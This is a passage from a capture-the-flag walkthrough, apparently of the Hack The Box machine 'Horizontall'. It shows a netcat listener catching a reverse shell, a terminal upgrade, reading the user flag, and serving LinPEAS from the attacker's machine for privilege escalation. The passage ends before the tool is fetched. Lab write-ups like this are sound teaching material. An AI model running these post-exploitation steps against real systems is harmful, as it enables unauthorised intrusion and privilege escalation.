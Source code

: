 This time we catch the shell:

```text
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.105] 55312
/bin/sh: 0: can't access tty; job control turned off
```

Upgrade to a proper terminal first:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
strapi@horizontall:~/myapi$ 
```

## User Flag

Who are we? And can we get the user flag:

```text
strapi@horizontall:~/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)

strapi@horizontall:~/myapi$ ls -l /home
drwxr-xr-x 8 developer developer 4096 Aug  2 12:07 developer

strapi@horizontall:~/myapi$ ls -l /home/developer/
-rw-rw----  1 developer developer 58460 May 26 11:59 composer-setup.php
drwx------ 12 developer developer  4096 May 26 12:21 myproject
-r--r--r--  1 developer developer    33 Sep 30 08:59 user.txt

strapi@horizontall:~/myapi$ cat /home/developer/user.txt 
<HIDDEN>
```

## Privilege Escalation

Ok that was easy! On to privilege escalation, let's pull LinPEAS over to speed it up. Grab the latest version from [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) if needed. Start a web server on Kali to host it:

```text
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Switch to the box, pull it over and run it:
